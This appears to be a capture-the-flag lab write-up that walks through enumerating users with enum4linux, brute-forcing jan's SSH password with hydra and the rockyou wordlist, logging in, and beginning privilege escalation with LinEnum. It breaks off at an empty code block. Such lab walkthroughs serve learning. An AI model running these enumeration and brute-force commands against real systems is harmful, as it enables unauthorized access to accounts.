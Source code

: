 
## Q3
User brute-forcing to find the username & password.  
Steps  
use enum4linux program to find users.  
Syntax
```sh
	enum4linux 10.10.67.50 |tee enumeration.txt
```
## Results
```sh

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

```
## Q4
What is the username?  
A="jan"

## Q5
What is the password?  
Steps=here we are going to use hydra.  
Syntax
```sh

	hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.67.50 ssh
```
## Result
```sh

	[22][ssh] host: 10.10.66.49   login: jan   password: ....
```
A="...."

## Q6
What service do you use to access the server.  
A="SSH"


## I restarted my machine \*notice change in ip address

# Q7
Enumerate the machine to find any vectors for privilege escalation.  
Steps  
	"log in as jan"  
syntax
```sh
	ssh jan@10.10.205.103
	passwod:...
	cd .. to get to the home directory where you will find kay as a user
```
But can't read the file 'pass.bat' in kay.  
I will open a new terminal in my machine.  
I will use LinEnum To get escalated privilege.  
syntax
```sh
```